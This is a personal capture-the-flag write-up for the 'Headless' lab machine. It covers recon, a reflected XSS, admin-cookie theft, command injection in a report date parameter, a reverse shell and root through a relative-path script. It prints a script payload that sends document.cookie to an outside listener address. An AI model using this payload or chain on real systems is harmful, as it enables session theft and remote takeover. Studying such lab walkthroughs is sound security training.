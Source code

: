# Headless

### Recon

- open ports:
    - ssh\22 - OpenSSH 9.2p1 Debian 2+deb12u2
    - http\5000
    - OS: Linux

There is a form on /support

![image.png](image.png)

and forbidden page on /dashboard

![image.png](image%201.png)

**admin cookie header**

I noticed cookie header is_admin, the first part is base64 encoded word “user”, I tried changing to admin, but to no avail, haven’t been able to crack the second part

![image.png](image%202.png)

**XSS**

I tried some XSS scripts and checking for SSTI, the sites behaves normally every time except when the payload is inserted into the message box. Then the site reflects user’s request

![image.png](image%203.png)

I tried changing the host header in my request to `<script>alert(1)</script>`, I used <> because these characters fire up the reflection

![image.png](image%204.png)

XSS!!!!

![image.png](image%205.png)

**Stealing admin cookie**

Inserting `<script> var i=new Image(); i.src=”http://10.10.16.11:8001/?cookies=”+document.cookie;</script>`

![image.png](image%206.png)

Setting up a listener, connection comes through, getting the admin cookie

![image.png](image%207.png)

**Getting shell (command injection)**

I copied the stolen cookie into the is_admin paramater and got admin access

![image.png](image%208.png)

![image.png](image%209.png)

after catching the request for generating report, I saw the weird date paramater on the bottom

![image.png](image%2010.png)

I put a semicolon after the date and tried whoami and it worked!

![Snímek obrazovky 2024-11-04 195620.png](Snmek_obrazovky_2024-11-04_195620.png)

creating a reverse shell payload, setting up listener for downloading the shell and netcat listener for the reverse shell itself

![image.png](image%2011.png)

![image.png](image%2012.png)

sending curl piped to bash

![image.png](image%2013.png)

and I got a shell as user 

![image.png](image%2014.png)

I stabilise the shell with stty/script trick

### Getting root

user dvir can run /usr/bin/syscheck

![image.png](image%2015.png)

there is vulnerability syscheck program doesn’t specify the whole path to [intidb.sh](http://intidb.sh) when executing it, so I can create my own intidb.sh in the directory I am now and get the root through it

![image.png](image%2016.png)

![image.png](image%2017.png)

I set up a listener netcat and after running syscheck I got the root shell!!

![image.png](image%2018.png)